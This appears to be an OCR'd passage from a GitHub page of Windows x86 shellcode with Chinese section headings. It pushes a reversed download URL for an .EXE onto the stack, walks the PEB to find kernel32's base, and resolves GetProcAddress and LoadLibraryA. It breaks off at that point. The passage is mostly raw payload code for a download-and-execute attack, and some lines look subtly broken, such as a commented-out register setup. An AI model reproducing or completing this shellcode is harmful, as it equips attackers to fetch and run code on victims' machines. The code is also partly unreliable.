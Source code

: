 ```bash\
0x2f455845    /EXE
0x5f515143    _QQC
0x502f5151    P/QQ
0x43502f62    CP/b
0x65777171    ewqq
0x2f6d6f63    /moc
0x2e71712e    .qq.
0x6e776f64    nwod
0x2f2f3a73    //:s
0x70747468    ptth
```
* 找到kernel32的基地址
```
xor ecx,ecx
mov eax,[fs:ecx+0x30] ;Eax=PEB
mov eax,[eax+0xc] ;eax=PEB.Ldr
mov esi,[eax+0x14] ;esi=PEB.Ldr->InMemOrderModuleList
lodsd 
xchg esi,eax
lodsd
mov ecx,[eax+0x10] ;ecx=kernel32.dll base address

;mov ebx,[ecx+0x3c] ;kernel32.dll +0x3c=DOS->e_flanew
add ebx,ecx ;ebx=PE HEADER
mov ebx,[ebx+0x78];Data_DIRECTORY->VirtualAddress
add ebx,ecx ;IMAGE_EXPORT_DIRECTORY

mov esi,[ebx+0x20] ;AddressOfNames
add esi,ecx
```
* 找到GetProcAddress
```
or edx,edx

count:
inc edx
lodsd
add eax,ecx
cmp dword [eax],'GetP'
jnz count
cmp dword [eax+4],'rocA'
jnz count
cmp dword [eax+8],'ddre'
jnz count

;---------------------------------------------

mov esi,[ebx+0x1c] ;AddressOfFunctions
add esi,ecx

mov edx,[esi+edx*4]
add edx,ecx ;edx=GetProcAddress()

;-----------------------------------------

xor esi,esi
mov esi,edx ;GetProcAddress()
mov edi,ecx ;kernel32.dll
```
* 使用GetProcAddress确定LoadLibrary函数地址
```
;------------------------------------
;finding address of LoadLibraryA()
xor eax,eax
```